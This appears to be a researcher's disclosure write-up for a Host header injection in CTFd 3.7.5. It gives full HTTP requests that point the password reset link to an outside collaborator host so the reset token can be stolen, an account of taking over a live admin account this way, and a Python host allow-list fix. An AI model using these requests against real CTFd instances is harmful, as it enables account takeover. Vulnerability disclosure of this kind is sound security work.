 ```yaml
---
date: 2025-08-16 09:30:00 PM
---
```


# POC CVE-2025-23001 CTFd 3.7.5

> Posted by TheWindGhost — 31/01/2025, Updated: 19/04/2025
>
> Report co-authors:
>
> - h??? (PTIT Ho-Chi-Minh City)
> - thD (VLUTE Vinh-Long City)
> - taneora (HUST Ha-Noi City)

The vulnerability was originally discovered by **TheWindGhost** (Security Researcher), who was the first to identify and
confirm the issue. Co-Authors contributed technical write-up, report structuring, and analysis.

---

## 1. Introduction

I first examined the CTFd source code and noticed that it did not secure or filter the Host header. This is where the
vulnerability starts.

![MITRE Reply With CVE-ID](https://thewindghost.github.io/posts/image-post/cve-2025-23001/1.png)

---

![Host Header Injection POC](https://thewindghost.github.io/posts/image-post/cve-2025-23001/2.png)

---

## 2. Host Header Injection

The request looks like this:

```http
- Test Host Header Injection
GET / HTTP/2
Host: 0ghb7us820bm4l90zd2vvixkhbn2bszh.oastify.com
Cookie: delete
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

I changed the Host header to use my Burp Suite collaborator. If the request is received by my server, this is a bug.

---

## 3. Exploit the Vulnerability & Steps to Exploit Reset Password

I logged into my user account and reset my password. The password reset token was included in the URL. Next, I attempted
to exploit this to reset the admin’s password.
![Reset Link Real](https://thewindghost.github.io/posts/image-post/cve-2025-23001/3.png)

I obtained the admin’s email from Discord and sent a request to reset the password:
![Password Reset Form](https://thewindghost.github.io/posts/image-post/cve-2025-23001/4.png)

```http
- Exploit Host Header Injection
POST /reset_password HTTP/2
Host: zx0aot97jzsllkqzgcjuchejya41ssgh.oastify.com
Cookie: delete
Content-Length: 120
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=mail-victim%40gmail.com&_submit=Submit&nonce=fake-937dd2059eb240c25ca77ff5743d4aee
```

And i change domain collaborator in host header request
![Hijacked Password Reset](https://thewindghost.github.io/posts/image-post/cve-2025-23001/5.png)

Then, I waited for the admin to click the reset link and successfully hijacked the password reset process.
![Hijacked Successfully](https://thewindghost.github.io/posts/image-post/cve-2025-23001/6.png)

Okay and we will reset password for login account admin.
![Reset Password Account Admin Screenshot](https://thewindghost.github.io/posts/image-post/cve-2025-23001/7.png)

Finally, I successfully exploited the vulnerability. One hour later, I spoke with the developer, but he didn’t understand that I had hacked and gained access to his account. I explained it to him and asked him to send me a screenshot of the email.

![Admin Account Access](https://thewindghost.github.io/posts/image-post/cve-2025-23001/8.png)
![Email Screenshot](https://thewindghost.github.io/posts/image-post/cve-2025-23001/9.png)

---

## 5. Security Fix

```python
- To secure against this vulnerability, add the following code:
import os
import re
from flask import request, abort
from CTFd import create_app

ALLOWED_HOSTS = {
"example.com", # change domain server
"192.168.1.1", # change ip public
}

ALLOWED_PROXIES = {"127.0.0.1", "192.168.1.1"} # change ip public

BLOCKED_HOST_REGEX = re.compile(r"^(localhost|127\.0\.0\.1|0\.0\.0\.0|::1|local)$", re.IGNORECASE)

app = create_app()

@app.before_request
def strict_host_protection():
host = request.headers.get("Host", "").split(":")[0]
forwarded_host = request.headers.get("X-Forwarded-Host", "").split(":")[0]
remote_addr = request.remote_addr
forwarded_for = request.headers.get("X-Forwarded-For", "").split(",")[0].strip()
real_ip = forwarded_for if forwarded_for else remote_addr

if forwarded_host and forwarded_host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {forwarded_host} -> {real_ip}")
abort(400)

if remote_addr in ALLOWED_PROXIES:
if BLOCKED_HOST_REGEX.match(host) or host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {host} -> {real_ip}")
abort(400)
else:
abort(400)

if __name__ == "__main__":
app.run(debug=False, host="127.0.0.1", port=4000)
```

Apply my security code to safeguard against this vulnerability and ensure we are protected!
![Reproduce HHI Again](https://thewindghost.github.io/posts/image-post/cve-2025-23001/10.png)
![Email Dev](https://thewindghost.github.io/posts/image-post/cve-2025-23001/11.png)

---

## 6. Vendor Response

When I reached out to the CTFd vendor, they told me that users need to configure Nginx for security. However, according to cybersecurity best practices, security should be built by design and by default. CTFd does not follow this policy.

**MITRE** accepted my submission based on this reasoning.

I would like to express my gratitude to **MITRE** for its fairness in managing CVE updates.
![Secure by default and design](https://thewindghost.github.io/posts/image-post/cve-2025-23001/12.png)

> **Secure by Design and Secure by Default**
>
> - [Beginner’s Guide on Secure byDesign](https://safestack.io/blog/resources/secure-by-design-and-default-a-beginners-guide)
> - [CISA: Secure by Design](https://www.cisa.gov/securebydesign)
